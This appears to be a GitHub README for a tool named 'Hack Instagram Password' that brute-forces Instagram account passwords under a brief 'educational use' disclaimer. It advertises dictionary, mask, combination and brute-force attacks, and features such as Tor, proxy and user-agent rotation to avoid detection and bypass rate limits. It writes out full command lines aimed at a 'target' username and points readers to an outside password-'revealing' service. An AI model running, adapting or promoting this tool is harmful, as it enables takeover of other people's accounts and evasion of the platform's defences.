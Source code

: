 # 🔐 Hack Instagram Password - Security Testing Tool

**Advanced Instagram Password Security Assessment Tool | Educational Use Only | Version 2025.1**

![Python](https://img.shields.io/badge/Python-3.8%2B-blue)
![Security](https://img.shields.io/badge/Security-Testing-red)
![License](https://img.shields.io/badge/License-Educational%20Use-only)

## ⚠️ IMPORTANT LEGAL DISCLAIMER

**This tool is for EDUCATIONAL and AUTHORIZED SECURITY TESTING purposes ONLY.**

I used the PASS REVELATOR API, which I thank, to create this program. If you want to learn more about Instagram account security and hacking, I encourage you to visit their website: https://www.passwordrevelator.net/en/passdecryptor


- 🚫 **Illegal Use Prohibited**: Unauthorized testing of accounts you don't own is **ILLEGAL**
- ✅ **Authorized Use Only**: Use only on accounts you own or have explicit written permission to test
- 🔒 **Security Awareness**: Designed to demonstrate password vulnerability and promote better security practices
- ⚖️ **Legal Responsibility**: Users are solely responsible for complying with all applicable laws

**By using this tool, you acknowledge that unauthorized access to computer systems is a criminal offense in most jurisdictions.**

## 🎯 Overview

Hack Instagram Password is an advanced security testing tool designed to demonstrate the vulnerabilities of weak passwords and educate users about cybersecurity threats. This tool performs comprehensive password strength testing using multiple attack vectors that real-world hackers employ.


### 🎓 Educational Purpose
- Demonstrate real-world hacking techniques for security awareness
- Test your own account security strength
- Educate about password vulnerability
- Security professional training

## ✨ Features

### 🔑 Multiple Attack Strategies
- **Dictionary Attacks**: Test common passwords and wordlists
- **Mask Attacks**: Pattern-based password generation
- **Combination Attacks**: Word variations with common suffixes
- **Hybrid Attacks**: Combined approaches for maximum coverage

### 🌐 Advanced Anonymity
- **Proxy Rotation**: Automatic proxy switching to avoid detection
- **Tor Integration**: Complete anonymity through Tor network
- **Request Throttling**: Intelligent rate limiting to bypass security
- **User-Agent Rotation**: Mimic real browser behavior

### 📊 Professional Monitoring
- Real-time attack statistics
- Performance metrics and success rates
- Resource usage monitoring
- Detailed reporting and logging

### 🔒 Security Features
- CSRF token handling
- Instagram API compliance
- Encrypted session management
- Automatic CAPTCHA detection

## 🚀 Installation

### Prerequisites
- Python 3.8 or higher
- pip package manager
- Internet connection

### Step 1: Clone Repository
```bash
git clone https://github.com/your-username/hack-instagram-password.git
cd hack-instagram-password

Step 2: Install Dependencies
bash

pip install -r requirements.txt

Required Packages
text

aiohttp>=3.8.0
requests>=2.28.0
cryptography>=3.4.0
stem>=1.8.0
psutil>=5.9.0
asyncio>=3.9.0

Step 3: Verify Installation
bash

python hack_instagram.py --help

⚡ Quick Start
Basic Password Testing
bash

python hack_instagram.py --username your_test_account --password-list passwords.txt

Anonymous Testing with Tor
bash

python hack_instagram.py --username your_test_account --password-list passwords.txt --use-tor

Advanced Multi-threaded Attack
bash

python hack_instagram.py --username your_test_account --password-list passwords.txt --threads 4 --use-tor --min-delay 2 --max-delay 5

Proxy-Based Attack
bash

python hack_instagram.py --username your_test_account --password-list passwords.txt --proxy-list proxies.txt --threads 3

🔥 Attack Methods
1. Dictionary Attacks

Test passwords from comprehensive wordlists:
bash

# Using common passwords list
python hack_instagram.py --username target --password-list common_passwords.txt

# Using customized wordlist
python hack_instagram.py --username target --password-list custom_list.txt

2. Mask Attacks

Pattern-based password generation:
python

# Example mask patterns:
?l?l?l?d?d?d  # 3 letters + 3 digits (abc123)
?u?l?l?l?d?d  # 1 uppercase + 3 lowercase + 2 digits (Abcd12)
?l?l?l?l?s?d  # 4 letters + 1 special char + 1 digit (abcd!1)

3. Combination Attacks

Intelligent password variations:
bash

# Base words with common modifications
python hack_instagram.py --username target --strategy combination --base-words "password,admin,user"

4. Brute Force Attacks

Complete character set testing (use with caution):
bash

# Not recommended for production - educational only
python hack_instagram.py --username target --strategy brute --min-length 4 --max-length 8
